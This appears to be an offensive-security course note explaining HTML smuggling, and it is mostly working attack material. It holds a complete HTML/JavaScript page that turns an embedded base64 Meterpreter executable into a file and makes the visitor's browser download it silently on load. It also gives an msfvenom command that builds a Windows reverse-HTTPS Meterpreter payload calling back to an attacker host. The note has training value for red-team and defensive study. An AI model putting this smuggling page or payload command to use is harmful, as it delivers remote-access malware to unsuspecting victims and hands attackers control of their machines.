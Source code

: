# Client side code exec using HTML smuggling

## How to create
```
1. Create a Base64 Meterpreter executable and store it as a *Blob* inside of a JavaScript variable

2. Use that Blob to create a URL file object that simulates a file on the web server

3. Create an invisible anchor tag that will trigger a download action once the victim loads the page
```
Example
```html
<html>
    <body>
        <script>
          function base64ToArrayBuffer(base64) {
    		  var binary_string = window.atob(base64);
    		  var len = binary_string.length;
    		  var bytes = new Uint8Array( len );
    		  for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
    		  return bytes.buffer;
      		}
      		
      		var file ='TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAA...
      		var data = base64ToArrayBuffer(file);
      		var blob = new Blob([data], {type: 'octet/stream'});
      		var fileName = 'msfstaged.exe';
      		
      		var a = document.createElement('a');
      		document.body.appendChild(a);
      		a.style = 'display: none';
      		var url = window.URL.createObjectURL(blob);
      		a.href = url;
      		a.download = fileName;
      		a.click();
      		window.URL.revokeObjectURL(url);
        </script>
    </body>
</html>
```
Generate a windows/x64/meterpreter/reverse_https payload using our now-familiar syntax and convert it to base64:
```bash
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o /var/www/html/msfstaged.exe
base64 /var/www/html/msfstaged.exe
```
![alt text](image.png)
*Before embedding the Base64-encoded executable, we must remove any line breaks or newlines, embedding it as one continuous string. Alternatively, we could wrap each line in quotes

Result
![alt text](image-1.png)

## References
https://www.outflank.nl/blog/2018/08/14/html-smuggling-explained/
https://www.outflank.nl/demo/html_smuggling.html